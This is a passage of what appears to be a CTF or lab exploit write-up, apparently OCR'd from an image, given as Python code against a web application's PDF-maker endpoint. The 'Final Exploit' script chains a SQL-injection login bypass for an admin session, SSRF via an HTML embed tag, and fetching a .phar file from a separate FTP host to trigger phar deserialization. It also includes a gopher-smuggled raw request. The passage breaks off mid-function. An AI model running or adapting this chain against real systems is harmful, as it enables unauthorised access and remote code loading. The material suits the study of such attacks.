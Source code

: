 ```python
    final_req += "\r\n\r\n"
    final_req += prepare_req.body

    payload = urllib.parse.quote(urllib.parse.quote(final_req))
    # payload = urllib.parse.quote(final_req)
    imgPayload = f"<embed src='http://localhost:5000/curl?url=gopher://localhost:80/_{payload}' />"

    a = session.post(url+"/pdf-maker", data={
        "body": imgPayload,
        "option": "getOutputFromHtml"
    })
```
## Final Exploit

```python
import requests
import urllib

url = "http://192.168.8.79:29458"
session = requests.Session()
filename = "/tmp/asd.phar"

headers = {
    'X-Requested-With': 'XMLHttpRequest',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
}

proxies = {
        "http": "http://localhost:8080" 
}

def getAdminSession():
    data = {
        "username": "a",
        "password": "notvalidpassword",
        "'a'/**/UNION/**/SELECT/**/null,'nonexistsuser','$2x$08$00000$',null,'admin'#--": "sanitized"
    }
    session.post(url + "/login", headers=headers, data=data)
    
def uploadPhar():
    imgPayload = f"<embed src='http://localhost:5000/ftp?url=ftp://10.10.1.35/asd.phar&filename={filename}' />"

    a = session.post(url+"/pdf-maker", data={
        "body": imgPayload,
        "option": "getOutputFromHtml"
    })

def triggerPharDeserialize():
    data = {
        "body": f"<h1>phar://{filename}</h1>",
        "option": "generateFromHtml"
    }

    # prepare req
    req = requests.Request("POST", url+"/pdf-maker", data=data)
    prepare_req = session.prepare_request(req)
    prepare_req.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.63 Safari/537.36"
```